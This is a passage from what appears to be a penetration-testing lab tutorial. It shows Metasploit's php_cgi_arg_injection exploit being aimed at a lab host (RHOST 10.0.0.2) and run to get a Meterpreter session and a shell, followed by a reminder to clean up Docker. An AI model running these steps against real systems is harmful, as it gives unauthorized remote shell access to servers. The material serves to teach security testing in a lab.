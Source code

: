 ```
   Id  Name
   --  ----
   0   Automatic
```

Here, all the required settings look fine except the target address which is not set.
That can be quickly remedied

```
msf5 exploit(multi/http/php_cgi_arg_injection) > set RHOST 10.0.0.2
RHOST => 10.0.0.2
```

now we're all set and can run the exploit

```
> exploit
```

This opens a Meterpreter session. To open a shell, we can simply type

```
> shell
```

and a shell is created. We have successfully broken into the target

When you're done, don't forget to [clean up](/crypto/2020/10/08/05-lab.html#docker-cleanup)
after Docker.

{% include lab_credits.md %}

[pt1]: /assets/images/pentest1.png
[pt2]: /assets/images/pentest2.png
[pt3]: /assets/images/pentest3.png
[pt4]: /assets/images/pentest4.png
